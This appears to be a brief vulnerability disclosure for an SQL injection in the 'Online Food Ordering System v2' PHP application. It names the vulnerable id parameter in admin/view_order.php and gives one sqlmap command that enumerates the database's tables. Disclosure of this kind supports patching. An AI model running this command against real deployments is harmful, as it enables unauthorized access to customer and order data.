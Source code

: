 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212478763-1effb63f-d18d-4974-b447-978624cc0ba9.png)
sqlmap.py -u "http://192.168.249.88/php-fos-db/admin/view_order.php?id=1" -D fos_db --tables
![image](https://user-images.githubusercontent.com/30823782/212478783-2927f026-4f45-4b58-9262-2e51158491ff.png)


